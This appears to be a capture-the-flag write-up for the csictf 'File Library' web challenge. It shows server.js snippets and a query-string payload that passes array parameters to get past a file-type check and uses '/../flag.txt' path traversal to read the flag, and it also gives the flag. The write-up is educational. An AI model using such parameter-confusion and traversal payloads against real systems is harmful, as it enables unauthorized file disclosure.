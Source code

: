 ```yaml
---
layout: post
title: "File Library"
author: "shreyas-sriram"
tags: ['Web']
---
```


This is my file library. I don't have a lot of files, but I hope you like the ones I have!

[http://chall.csivit.com:30222]([http://chall.csivit.com:30222])

## Files
* [server.js]({{site.baseurl}}/assets/File-Library/server.js)

## Solution
* There is a lot of mention about *files* in the challenge
* Opening the available files leads us to this page<br/>
[http://chall.csivit.com:30222/getFile?file=ok.js](http://chall.csivit.com:30222/getFile?file=ok.js)
* Attempt to get the flag by [http://chall.csivit.com:30222/getFile?file=flag.txt](http://chall.csivit.com:30222/getFile?file=flag.txt) results in `File type not allowed`
* Going through the source code, we can see that there is a check for the supported file-type and the filename is sliced at index 5 before fetching the file<br/>

**File-type check**
```javscript
if (format == 'js' || format == 'ts' || format == 'c' || format == 'cpp') {
        return true;
    }

    return false;
```

**Filename slicing**
```javscript
if (file.length > 5) {
        file = file.slice(0, 5);
    }
```

* Notice that the file-type check happens before slicing the filename
* Reading up on the methods `slice()` and `indexOf()`, we learn that they accept `list` as arguments too
* The flag is obtained by crafting a clever payload to bypass all the checks<br/>

**Payload**
```
/getFile?file[]=f&file[]=4&file[]=k&file[]=e&file[]=/../flag.txt&file[]=.&file[]=js
```

**Payload Explanation**<br/>
* As seen above, it has 7 `GET` parameters as `flag[]`, this is parsed by the server as a `list / array`<br/>

```javascript
file[] = ["f","4","k","e","/../flag.txt",".","js"]
```

* File-type check parses only `["js"]` and is bypassed
* Filename slicing parses only `file[] = ["f","4","k","e","/../flag.txt"]`
* This successfully read `flag.txt`


**Flag URL**<br/>
[http://chall.csivit.com:30222/getFile?file[]=f&file[]=l&file[]=a&file[]=g&file[]=/../flag.txt&file[]=.&file[]=js](http://chall.csivit.com:30222/getFile?file[]=f&file[]=l&file[]=a&file[]=g&file[]=/../flag.txt&file[]=.&file[]=js)

## Flag
```
csictf{5h0uld_5tr1ng1fy_th3_p4r4ms}
```
